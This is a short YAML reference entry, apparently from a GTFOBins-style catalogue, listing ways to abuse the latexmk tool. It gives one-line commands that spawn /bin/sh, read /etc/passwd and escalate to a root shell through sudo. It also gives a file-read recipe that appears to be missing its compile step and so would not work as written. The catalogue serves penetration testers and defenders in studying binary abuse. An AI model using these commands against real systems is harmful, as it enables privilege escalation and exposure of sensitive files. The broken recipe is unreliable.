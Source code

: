 description: This allows to execute [`perl`](/gtfobins/perl/) code.
functions:
  shell:
    - code: |
        latexmk -e 'exec "/bin/sh";'
    - code: |
        latexmk -latex='/bin/sh #' /dev/null
  file-read:
    - code: |
        latexmk -e 'open(X,"/etc/passwd");while(<X>){print $_;}exit'
    - description: The read file will be part of the output.
      code: |
        TF=$(mktemp)
        echo '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}' >$TF
        strings tmp.dvi
  sudo:
    - code: sudo latexmk -e 'exec "/bin/sh";'
---
